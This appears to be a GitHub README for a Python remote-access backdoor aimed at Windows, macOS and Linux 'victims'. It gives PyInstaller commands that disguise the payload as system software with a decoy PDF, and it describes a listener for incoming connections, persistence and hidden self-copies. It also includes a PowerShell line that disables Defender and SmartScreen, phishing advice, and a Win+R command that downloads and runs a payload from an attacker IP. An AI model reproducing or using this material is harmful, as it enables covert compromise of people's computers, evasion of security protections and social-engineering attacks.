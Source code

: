 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

---
## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   pip install requests pillow pyautogui
   ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
    ```powershell
    C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" ——version-file=version_info.txt —add-data "sample.pdf;." Unobfuscated\plain_backdoor.py
    ```
  
#### For MacOS :    
    ```zsh
    /Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
    ```

#### For Linux :
    ```shell
    pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
    ```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
    ```shell
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
    ```

4. ### Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
 
---

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.


---

# Evasion Techniques :
To Disable Defender via Administrative powershell :
Note : Must have Tamper protection off
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisableScriptScanning $true; Set-MpPreference -PUAProtection 0; Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\AppHost" -Name "EnableWebContentEvaluation" -Value 0; Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off"
```
To avoid Cloud/Browser based detections :
1. Convert the .exe to Zip file with password protection and use email phishing 
2. Convince the victim to execute these commands assuming he has 7zip-archive installed:
Win + R and then :
```powershell
powershell -Command "Invoke-WebRequest -Uri 'http://<IP>/Windows.zip' -OutFile '$env:TEMP\Windows.zip'; & 'C:\Program Files\7-Zip\7z.exe' x '$env:TEMP\Windows.zip' -o'$env:TEMP' -p12345 -y; Start-Process '$env:TEMP\file.exe'"
```
Note : The backdoor will likely be flagged unless Defender is disabled 